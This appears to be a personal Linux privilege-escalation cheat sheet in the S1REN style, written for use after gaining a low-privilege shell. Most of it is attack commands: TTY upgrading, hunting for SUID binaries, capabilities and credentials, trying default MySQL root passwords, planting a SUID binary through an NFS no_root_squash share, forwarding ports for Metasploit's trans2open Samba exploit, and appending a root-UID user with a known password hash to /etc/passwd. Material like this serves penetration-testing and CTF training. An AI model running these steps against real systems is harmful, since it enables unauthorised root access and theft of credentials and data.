 What's my path to root?  

**g0tmilk's Guide to Linux Privilege Escalation as well:**  
[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  
](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  
**I just got a low-priv shell !**  
What would S1REN do  _right now_?  
**python**  -c 'import pty; pty.spawn("/bin/bash")'  
OR  
**python3**  -c 'import pty; pty.spawn("/bin/bash")'  
export  **PATH**=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export  **TERM**=xterm-256color  
alias  **ll**='ls -lsaht --color=auto'  
**Ctrl + Z**  [Background Process]  
stty raw -echo  **;**  fg  **;**  reset  
stty columns 200 rows 200

  
**S1REN would say:**  
_Various Capabilities?_  
which  **gcc**  
which  **cc**  
which  **python**  
which  **perl**  
which  **wget**  
which  **curl**  
which  **fetch**  
which  **nc**  
which  **ncat**  
which  **nc.traditional**  
which  **socat**  
  
**Compilation? (**Very Back Burner**)**  
**file**  /**bin**/**bash**  
**uname -a**  
cat /**etc**/***-release**  
cat /**etc**/**issue**  

  
**What Arch?**  
file /bin/bash  
  
**Kernel?**  
uname -a  

**Issue/Release?**  
cat /etc/issue  
cat /etc/***-**release  

**Are we a  _real user_?**  
sudo -l  
ls -lsaht /etc/sudoers  

**Are any users a member of exotic groups?**  
groups <user>

  
**Check out your shell's environment variables...**  
env  
[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)  

**_Users_?**  
cd /home/  
ls -lsaht

**_Web Configs_  containing credentials?**  
cd /**var**/**www**/**html**/  
ls -lsaht  
  
**_SUID_  Binaries?**  
find  **/**  -perm  **-u=s**  -type f 2>/**dev**/**null**  

**_GUID_  Binaries?**  
find  **/**  -perm  **-g=s**  -type f 2>/**dev**/**null**  
  
**SUID/GUID/SUDO  _Escalation_:**  
[https://gtfobins.github.io/  
](https://gtfobins.github.io/)

**Binary/Languages with "_Effective Permitted_" or "_Empty Capability_" (**ep**):**  
[https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities  
](https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities)Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.  
getcap -r / 2>/dev/null

  
**We need to start monitoring the system if possible while performing our enumeration...**  
**In other words:**  
"S1REN...  _Is privilege escalation going to come from some I/O file operations being done by some script on the system?_"  
[https://github.com/DominicBreuker/pspy/blob/master/README.md  
](https://github.com/DominicBreuker/pspy/blob/master/README.md)cd /var/tmp/  
File Transfer  **-->**  pspy32  
File Transfer  **-->**  pspy64  
chmod 755 pspy32 pspy64  
./pspy<32/64>  
  
**What does the local network look like?**  
netstat -antup  
netstat -tunlp  
  
**Is anything vulnerable running as root?**  
ps aux |grep -i 'root' --color=auto  
  
**MYSQL Credentials? Root Unauthorized Access?**  
mysql -uroot -p  
Enter Password:  
root : root  
root : toor  
root :

**S1REN would take a quick look at etc to see if any user-level people did special things:**  
cd /**etc**/  
ls -lsaht  
_Anything other than root here?_  
• Any config files left behind?  
→ ls -lsaht |grep -i ‘.conf’ --color=auto

**• If we have root priv information disclosure - are there any .secret in /etc/ files?**  
→ ls -lsaht |grep -i ‘.secret’ --color=aut  

**SSH Keys I can use perhaps for even further compromise?**  
ls -lsaR /**home**/  

**Quick look in:**  
ls -lsaht /**var**/**lib**/  
ls -lsaht /**var**/**db**/  
  
**Quick look in:**  
ls -lsaht /**opt**/  
ls -lsaht /**tmp**/  
ls -lsaht /**var**/**tmp**/  
ls -lsaht /**dev**/**shm**/  

**File Transfer Capability? What can I use to transfer files?**  
which wget  
which curl  
which nc  
which fetch (BSD)  
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

**NFS? Can we exploit weak NFS Permissions?**  
cat /**etc**/**exports**  
no_root_squash?  
[https://recipeforroot.com/**attacking-nfs-shares**/  
](https://recipeforroot.com/attacking-nfs-shares/)  
**[On Attacking Machine]**  
mkdir -p /**mnt**/**nfs**/  
mount  **-t**  nfs  **-o**  **vers**=<version 1,2,3>  **$IP:**<NFS Share> /**mnt**/**nfs**/  **-nolock**  
gcc suid.c  **-o**  suid  
cp suid /**mnt**/**nfs**/  
chmod u+s /**mnt**/**nfs**/**suid**  
su <user id matching target machine's user-level privilege.>  
  
**[On Target Machine]**  
user@host$ ./suid  
**#**

**_Where can I live on this machine?_  Where can I read, write and execute files?**  
/**var**/**tmp**/  
/**tmp**/  
/**dev**/**shm**/

**Any exotic file system mounts/extended attributes?**  
cat /**etc**/**fstab**  
  
**Forwarding out a weak service for root priv (with meterpreter!):**  
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.  
[https://www.offensive-security.com/metasploit-unleashed/portfwd/](https://www.offensive-security.com/metasploit-unleashed/portfwd/)  
  
**Forwarding out netbios-ssn EXAMPLE:**  
**meterpreter>**  portfwd add –l 139 –p 139 –r [target remote host]  
**meterpreter>**  background  
use exploit/linux/samba/trans2open  
set RHOSTS 0.0.0.0  
set RPORT 139  
run  
  
**Can we write as a low-privileged user to /etc/passwd?**  
openssl passwd -1  
i<3hacking  
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.  
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd  
su siren  
id  
  
**Cron.**  
crontab –u root –l  
  
**Look for unusual system-wide cron jobs:**  
cat /etc/**crontab**  
ls /etc/**cron.***  

**Bob is a user on this machine. What is every single file he has ever created?**  
find / -user  **miguel**  2>/dev/null  

**Any mail?**  **mbox in User $HOME directory?**  
cd /**var**/**mail**/  
ls -lsaht  
  
**Linpease**:  
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  
](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)  
**Traitor:**  
[https://github.com](https://github.com/liamg/traitor)[/](https://github.com/liamg/traitor)[liamg/traitor  
](https://github.com/liamg/traitor)  
**GTFOBins:**  
[https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
**PSpy32/Pspy64:**  
[https://github.com/DominicBreuker/pspy/blob/master/README.md](https://github.com/DominicBreuker/pspy/blob/master/README.md)